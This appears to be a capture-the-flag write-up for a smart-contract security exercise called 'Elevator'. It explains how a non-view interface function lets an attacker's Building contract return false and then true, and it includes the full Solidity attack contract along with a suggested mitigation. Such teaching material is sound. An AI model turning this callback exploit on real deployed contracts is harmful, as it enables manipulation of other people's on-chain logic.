 ```yaml
---
title: Level 11 - Elevator
slug: level-11
published: 05-17-2023
lastEdited:
---
```


## Objectives

1. Make the elevator go to the top floor. (Give the `floor` variable the same value as the `top` variable)

## Vulnerabilities

### Interface function not using pure or view

Functions in interfaces that are not `pure` or `view` can be used to modify state in an unintended way. In this level,
we use this to make the function `isLastFloor` return different values based on some state.

## Exploit

1. Write and deploy an attack contract like this:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "Elevator.sol";

contract ElevatorHack is Building  {
    Elevator target;
    bool alreadyCalled;

    constructor(address _targetAddress) {
        target = Elevator(_targetAddress);
    }

    function isLastFloor(uint) override external returns(bool){
        if(alreadyCalled){
            return true;
        } else {
            alreadyCalled = true;
            return false;
        }
    }

    function attack(uint _floor) external {
        target.goTo(_floor);
    }
}
```

2. Call the `attack` function with and uint as argument to reach the top floor.

## Suggested mitigation

1. Add the `view` modifier to the `isLastFloor` interface function.

## Further reading

- View functions <ExternalLink href={"https://docs.soliditylang.org/en/develop/contracts.html#view-functions"} />
